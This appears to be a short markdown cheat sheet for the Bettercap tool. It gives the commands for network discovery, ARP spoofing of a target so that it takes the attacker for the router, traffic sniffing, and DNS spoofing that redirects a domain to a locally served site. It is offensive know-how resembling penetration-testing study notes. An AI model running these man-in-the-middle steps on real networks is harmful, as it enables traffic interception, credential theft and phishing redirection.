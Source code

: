 # Bettercap

TODO: Provide a usage coverage for wireless attacks using bettercap

start bettercap

```
$ sudo bettercap
```

start locating the devices in the network

```bash
net.probe on
```

list all the devices on the network

```bash
net.show
```

## ARP Spoofing attack

- Let the victim think that it's talking to the router

```
set arp.spoof.targets <IP>

arp.spoof on
```

- Enable sniffer mode

```
net.sniff on
```


## Redirection of websites

```bash
net.sniff off
```

```bash
set dns.spoof.domains myamazon.com
```

start your own website (empty)
```bash
service apache2 start
```

```bash
dns.spoof on
```